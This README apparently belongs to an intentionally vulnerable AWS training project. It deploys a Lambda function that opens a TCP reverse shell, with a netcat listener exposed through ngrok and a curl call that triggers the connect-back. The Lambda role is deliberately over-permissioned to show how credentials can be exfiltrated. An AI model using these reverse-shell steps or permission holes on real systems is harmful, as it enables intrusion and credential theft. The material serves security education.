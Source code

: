 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)

## Deploying The Function and Resources

```bash
cd /PATH/TO/panther
aws configure
npm install

# AWS profile to use
export AWS_PROFILE=default

# Optional: Run the Lambda in a VPC.
export IN_VPC=true

# Optional: Create protected S3 bucket that the Lambda execution role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

In addition to deploying the function, this will create a private S3 Bucket with an image. The Lambda role will have unnecessary permissions to access these resources as well as to an AWS Parameter Store path to demonstrate the damage that can be done by exfiltrating credentials from the runtime environment.

To store a secret in the aforementioned Parameter Store path, run the following:

```bash
aws ssm put-parameter --name /panther/database/user --value "panther_user" --type SecureString
aws ssm put-parameter --name /panther/database/password --value "RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu" --type SecureString
```

## Testing in AWS

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/panther --url-id YOUR_API_GATEWAY_ID --api-key YOUR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details and API key:

```bash
curl "https://YOUR_API_GATEWAY_ID.execute-api.$AWS_REGION.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER" -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Panther.

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
